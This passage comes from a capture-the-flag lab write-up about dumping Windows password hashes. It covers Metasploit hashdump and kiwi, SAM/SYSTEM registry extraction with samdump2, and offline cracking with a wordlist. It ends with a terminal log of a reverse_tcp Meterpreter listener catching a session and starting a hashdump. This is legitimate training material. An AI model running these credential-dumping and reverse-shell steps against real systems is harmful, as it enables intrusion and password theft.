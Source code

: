 1. Read the above

`No answer needed`

## Task 4 [EXTRA] Hash dumping

**What is hash dumping?**

Hash dumping is the technique used by penetration testers to extract the password hashes off of the target system to either crack them or to try to do lateral movement.
The simplest way to do hash dumping is by using Metasploit's hashdump/kiwi module:

![](https://i.imgur.com/y0TdRu7.png)

The same result can be achieved by saving the SAM and SYSTEM registries, downloading the files and using samdump2.
Let's save first the registries on the target machine:

![](https://i.imgur.com/CQc638I.png)

With the registries saved download the files to the attacker machine and use samdump2 to recover the hashes.

![](https://i.imgur.com/KzxBXqG.png)

It seems some users do not appear, only their hashes. However, for that issue, you can query for users that are on the system.

You can dump credentials using kiwi, which is the equivalent of mimikatz. To do that you'll need to load the module: `load kiwi`.
The command used to dump the SAM database hashes is: `lsa_dump_sam`

![](https://i.imgur.com/mwQkA5z.png)

There are more ways of dumping hashes and multiple tools and scripts that can be used for this purpose.

Note: If planning to use the offline cracking method the passwords are contained in the following wordlist from seclists: 100k-most-used-passwords-NCSC.txt (/usr/share/seclists/Passwords/Common-Credentials). In case you do not have seclists installed you can do it by usingthe following command: `sudo apt-get install seclists` .

```
kali@kali:~/CTFs/tryhackme/Persistence$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/handler) > set LPORT 9002
LPORT => 9002
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:9002 
[*] Sending stage (176195 bytes) to 10.10.98.70
[*] Meterpreter session 1 opened (10.8.106.222:9002 -> 10.10.98.70:50074) at 2020-10-30 22:27:27 +0100

meterpreter > run post/windows/gather/hashdump 

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 31066436b67d1dfb03c9f249b9aed099...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...
```